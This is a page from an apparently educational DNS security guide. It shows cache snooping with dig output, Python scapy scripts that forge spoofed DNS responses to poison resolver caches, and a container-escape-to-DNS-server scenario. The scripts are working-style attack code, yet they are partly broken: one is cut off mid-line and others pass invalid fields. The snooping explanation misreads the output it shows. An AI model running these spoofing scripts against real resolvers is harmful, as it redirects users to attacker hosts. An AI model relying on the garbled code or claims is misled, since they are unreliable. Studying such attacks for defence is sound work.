

 | [Repo](https://github.com/ji-podhead/Network-Guides/) | [main](https://ji-podhead.github.io/Network-Guides/DNS) | [DNS](https://ji-podhead.github.io/Network-Guides/DNS) | 

---

 | [Knowledge Base](https://ji-podhead.github.io/Network-Guides/DNS/Knowledge%20Base)| [Install](https://ji-podhead.github.io/Network-Guides/DNS/install) | [Test&Debug](https://ji-podhead.github.io/Network-Guides/DNS/testAndDebug) | [Attack Vectors & Scenario](https://ji-podhead.github.io/Network-Guides/DNS/attackVectorsAndScenario) | [Protection](https://ji-podhead.github.io/Network-Guides/DNS/protection) | 
 
# Attack Vectors & Scenario
## Attack Vectors
### Snooping
- we can get the ip's of the clients  that send DNS-requests to the server
  - this is because the dns stores/caches the ips of the clients for the reverse request to speed up the connection-process
```Bash
dig +norecurse @192.168.122.7 foreman.de
```
>```
>; <<>> DiG 9.16.23-RH <<>> +norecurse @192.168.122.7 foreman.de
>; (1 server found)
>;; global options: +cmd
>;; Got answer:
>;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 17547
>;; flags: qr aa; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2
>
>;; OPT PSEUDOSECTION:
>; EDNS: version: 0, flags:; udp: 1232
>; COOKIE: 05a3b545adc9f83701000000666323381697775d93001fbd (good)
>;; QUESTION SECTION:
>;foreman.de.			IN	A
>
>;; ANSWER SECTION:
>foreman.de.		604800	IN	A	192.168.122.20
>
>;; AUTHORITY SECTION:
>foreman.de.		604800	IN	NS	bindserver.foreman.de.
>foreman.de.		604800	IN	NS	localhost.
>
>;; ADDITIONAL SECTION:
>bindserver.foreman.de.	604800	IN	A	192.168.122.20
>
>;; Query time: 1 msec
>;; SERVER: 192.168.122.7#53(192.168.122.7)
>;; WHEN: Fri Jun 07 17:11:52 CEST 2024
>;; MSG SIZE  rcvd: 147
 >```
> now we know that `localhost` made a DNS-request for `foreman.de`

---


> -   We construct a DNS query packet targeting `www.example.com`.
> -   We then create a DNS response packet that includes our spoofed source IP (`src_ip`) and the actual destination IP (`dst_ip`). The response packet is crafted to mimic a legitimate DNS response for `www.example.com`, directing it to an IP address (`1.3.3.7`) of the attacker's choice.
> -   Finally, we send the crafted DNS response packet towards the DNS server.

---

### DNS Cache-Poisining

 DNS cache poisoning, is a malicious activity where an attacker injects false DNS records into a DNS server's cache. 
> - This manipulation tricks the DNS server into returning incorrect IP addresses for a domain name, redirecting users to malicious websites instead of legitimate ones.

- Attackers often target DNS servers that are not properly secured or configured, leading to successful redirection of traffic.
- there are 2 main tatics used:
> 
>     - a ***denial of service attack*** such as DDOS can generate latency, or kill the spoofed server in order to take it over 
>     -  

---

***Sending a fake record using spoofed ip***

- attack an additional nameserver in order to respond to the targeted nameserver with a correct ip, but also with a ***fake record***
   -  a ***denial of service attack*** such as DDOS can be used to kill the additional nameserver to spoof it
   - server got taken over by any other hack and gets controlled directly
     
```Python
from scapy.all import *

# Define the destination IP (the victim's DNS server)
dst_ip = "8.8.8.8"  # Google's DNS server as an example

# Define the source IP (the attacker's IP, spoofed)
src_ip = "192.168.1.100"

# Create a DNS query packet for test.example.com
query_packet_test = IP(dst=dst_ip)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="test.example.com"))

# Create a DNS response packet for test.example.com with a spoofed IP address
response_packet_test = IP(src=src_ip, dst=dst_ip)/UDP(sport=12345, dport=53)/DNS(id=query_packet_test[DNS].id, aa=True, qr=True, rcode=0, an=DNSRR(rrname="test.example.com", ttl=10, rdata="correct.ip.for.test.example.com"))

# Create a DNS query packet for de.wikipedia.org
query_packet_wiki = IP(dst=dst_ip)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="de.wikipedia.org"))

# Create a DNS response packet for de.wikipedia.org with a spoofed IP address
response_packet_wiki = IP(src=src_ip, dst=dst_ip)/UDP(sport=12345, dport=53)/DNS(id=query_packet_wiki[DNS].id, aa=True, qr=True, rcode=0, an=DNSRR(rrname="de.wikipedia.org", ttl=10, rdata="192.0.2.1"))

# Send the DNS response packets
send(response_packet_test)
send(response_packet_wiki)

print("Sent DNS response packets.")
```

---

***Sending a fake query by using IP-Spoofing***

- we will attack the victim directly instead of using an additional nameserver
 - a ***denial of service attack*** such as DDOS could be used to kill the corresponding DNS 
- the spoofed DNS sends a `fake query` directly to the victim 
-  the attcker will either:
   - sniff the web to get the Transaction-Number
   - use random Transaction-Number in brute-force-manier
 



```python
from scapy.all import send, IP, UDP, DNS, DNSQR, DNSRR
import random

# Target domain to be spoofed
target_domain = "foreman.de"

# IP address of the machine running the python code
attacker_ip = "192.168.1.100"  # Modify this according to your environment

# IP address of the victim client (DNS resolver)
victim_ip = "192.168.122.7"  # Modify this according to your environment

# DNS port
dns_port = 53

# Generate a random transaction ID
transaction_id = random.randint(0, 65535)

# Generate a fake DNS query
def generate_fake_dns_query(transaction_id):
    query = DNSQR(qname=target_domain, id=transaction_id)
    return query

# Spoof the DNS request and response
def spoof_dns_request_and_answer(transaction_id):
    # Create the DNS request with the specified transaction ID
    query_packet = IP(src=attacker_ip, dst=victim_ip) / UDP(sport=random.randint(1024, 65535), dport=dns_port) / DNS(id=transaction_id, rd=1, qd=DNSQR(qname=target_domain))
    
    # Create the fake DNS response
    answer = IP(dst=victim_ip, src=attacker_ip) / UDP(dport=dns_port, sport=random.randint(1024, 65535)) / DNS(id=transaction_id, aa=True, qr=True, an=DNSRR(name=target_domain, type='A', ttl=10, rdata='1.3.3.7'))
    
    # Send the fake DNS response
    send(answer)

# Start the DNS spoofing attack
spoof_dns_request_and_answer(transaction_id)

print(f"DNS spoofing
```

---

###  Possible Szenario

> Escaping a Web Application Container and Attacking a Private DNS Server

***Background***

-   A web application is running within a container in a Kubernetes (K8s) cluster.
-   The attacker has compromised the web application container and aims to escalate their privileges.

**Attack Steps**

1.  ***Container Escape:***
    
    -   The attacker identifies a vulnerability (e.g., misconfigured security settings, outdated software) within the web application container.
    -   They exploit this vulnerability to escape the container.
2.  ***Network Access:***
    
    -   Once outside the container, the attacker gains access to the underlying host system.
    -   They can now interact with the network interfaces (NICs) on the host.
3.  **Discovering DNS Servers:**
    
    -   The attacker scans the network to identify DNS servers.
    -   They may find a private DNS server used for internal services, such as dashboards or monitoring tools.
4.  **DNS Server Exploitation:**
    
    -   The attacker targets the private DNS server:
        -   If the DNS server is misconfigured (e.g., allows zone transfers), they can retrieve DNS records.
        -   They can manipulate DNS records (e.g., redirecting traffic to malicious IP addresses).
        -   If the DNS server has known vulnerabilities (e.g., outdated software), they can exploit them.
5.  **Impact of DNS Server Compromise:**
    
    -   By compromising the DNS server, the attacker can:
        -   Redirect legitimate users to malicious sites.
        -   Intercept sensitive data (e.g., login credentials) by modifying DNS responses.
        -   Disrupt internal services by altering DNS records.


---
